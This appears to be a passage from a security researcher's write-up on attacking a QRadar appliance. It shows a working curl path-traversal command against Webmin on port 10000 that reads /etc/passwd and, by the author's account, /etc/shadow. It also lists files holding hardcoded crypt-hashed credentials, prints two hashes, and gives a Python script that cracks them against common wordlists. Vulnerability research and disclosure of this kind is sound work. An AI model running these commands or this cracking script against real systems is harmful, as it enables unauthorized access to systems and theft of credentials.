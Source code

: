 As you can see, it's not that the attack surface was comprehensive but rather overwhelming. With expectations to find some services we can play around with, we have found almost all of them in an overwhelming abundance.

First one that jumped to the start of the list was port 10000/tcp registered as ‘webmin'. A quick search gives us several vulnerabilities. We have attempted one straight off the page and found it to fail. Reason: SSL Handshake Failed. After some tests we found that the service uses an SSL version which is just not supported. Tweaking the `curl` command line a bit got us:

**PoC II - Remote File Inclusion with root Access**

```
curl --sslv3 -k -v -d  https://192.168.1.1:10000/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/passwd
```

Which surprised us by simply coughing up `/etc/passwd`. So we went a step bolder and requested, kindly of course, for the `/etc/shadow` file. The service was kind enough to oblige.
At this point we've decided to look into the patching levels of the machine as the kernel seemed ‘a bit' outdated. We have listed in our notes that the system is vulnerable to ShellShock. We shall address that on the Web Admin Interface Research.

#### Hardcoded Credentials with weak Storage

So we figured out that the several files holding the username `configservices` which were interesting for us:
```
/opt/qradar/conf/templates/users.conf
/opt/qradar/conf/templates/configservices_users.conf
/opt/qradar/conf/users.conf
/opt/qradar/conf/configservices_users.conf
```

The file `/opt/qradar/conf/configservices_users.conf` holds credentials stored with `crypt`. So we've wrote a little script to 'bruteforce' and check the passwords with some of the several most common dictionaries.

```python
import crypt

def login(pass2check, digest):
    username = "admin"
    cleartext = pass2check
    cryptedpasswd = digest
    return crypt.crypt(cleartext, cryptedpasswd) == cryptedpasswd

passwords = ["AGuocsnOEaHlw", "/wEPae8TzCqmM"]
words = open('10_million_password_list_top_1000000.txt', 'r').readlines()
words = open('darkc0de.lst', 'r').readlines()
words = open('rockyou.txt', 'r').readlines()


for password in passwords:
    for word in words:
        if login(word.strip(), password):
            print word.strip(),":", password
```
